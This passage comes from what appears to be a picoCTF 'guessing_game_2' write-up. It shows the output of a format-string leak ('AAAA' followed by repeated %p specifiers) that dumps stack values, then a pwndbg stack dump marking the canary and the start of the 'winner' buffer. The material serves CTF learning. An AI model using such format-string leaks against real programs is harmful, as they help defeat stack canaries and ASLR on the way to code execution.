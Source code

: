 ```
Congrats: AAAA.0x200.0xf7ed6580.0x804877d.0x1.0xfffff941.0xfffff941.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.(nil).0xf7d63b79.0xf7ed49e0.0xf7ed6d20.0x1c.0xffa24ec8.0xc18fc300.0xf7ed6d20.0xa.0x1c.0x8049fbc.0x1.0x8048520.0xffa24ef8.0xf7d3bf35.(nil).0x80489fc.0xffa24ed4.(nil).0x1.0x8048520.0xf7d3bf15.0xc18fc300.0x80489fc.0x8049fbc.0xffa24ef8.0x804888c.0x1
```

- After entered input, I check the stack and canary

![img](/picoCTF/guessing_game_2/assets/stack_check.png)

```
pwndbg> x/200xw $esp
0xffffd1c0:     0x080489d2      0x00000200      0xf7faf580      0x0804877d
                                                              +------------+
0xffffd1d0:     0x00000001      0xfffff941      0xfffff941    | 0x41414141 |  <- 0xffffd1df is start of winner
                                                              +------------+
0xffffd1e0:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd1f0:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd200:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd210:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd220:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd230:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
0xffffd240:     0x2e70252e      0x252e7025      0x70252e70      0x2e70252e
0xffffd250:     0x252e7025      0x70252e70      0x2e70252e      0x252e7025
0xffffd260:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
```